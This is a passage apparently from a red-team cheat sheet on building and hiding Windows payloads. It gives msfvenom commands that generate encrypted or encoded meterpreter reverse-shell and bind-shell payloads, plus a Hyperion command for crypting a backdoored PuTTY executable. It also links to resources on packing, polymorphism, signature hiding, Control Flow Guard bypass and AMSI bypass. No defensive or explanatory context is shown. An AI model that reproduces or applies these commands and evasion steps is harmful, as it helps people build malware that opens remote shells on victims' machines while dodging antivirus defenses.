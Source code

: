 ### Crystal

- <https://github.com/js-on/WeaponizeCrystal/blob/main/shellcode_loader/shellcode_loader.cr>

## Generate shellcode

### msfvenom

- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<SERVER> LPORT=<PORT> -f raw`
- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key thisisakey -f dll`
- `msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai '\x00' -i 30 RHOST=10.0.0.68 LPORT=9050 -f c | tr -d '"' | tr -d '\n' | more`

### C2 (Cobalt/Havoc what ever)

### ASM

- <https://nytrosecurity.com/2019/06/30/writing-shellcodes-for-windows-x64/>

### Hyperion

- `wine hyperion.exe /root/payloads/shellter/shellter_putty_reverse_x86.exe`

## Manual obfuscation

### Static

- Packing
  - <https://pentester.blog/?p=39>
  - <https://github.com/frank2/packer-tutorial>
- Polymorph
  - <https://www.exploit-db.com/papers/13874>
- Signature hiding
  - <https://www.ired.team/offensive-security/defense-evasion/av-bypass-with-metasploit-templates>
- CFG
  - ROP
    - <https://improsec.com/tech-blog/bypassing-control-flow-guard-on-windows-10-part-ii>
  - <https://joshpitts.medium.com/hooking-control-flow-guard-cfg-for-fun-and-profit-31f951485545>
  - <https://citeseerx.ist.psu.edu/document?repid=rep1&type=pdf&doi=ade1cc22ee994c1b353326ae4cedccd29f33b8d0>
  - CFG flattening
    - <http://ac.inf.elte.hu/Vol_030_2009/003.pdf>
- Change logo/icon
  - <https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/compiler-options/resources?redirectedfrom=MSDN>
- Change date of compilation
- Bypass AMSI
  - <https://rastamouse.me/memory-patching-amsi-bypass/>
  - <https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/>
  - <https://www.pentestpartners.com/security-blog/patchless-amsi-bypass-using-sharpblock/>
- Description
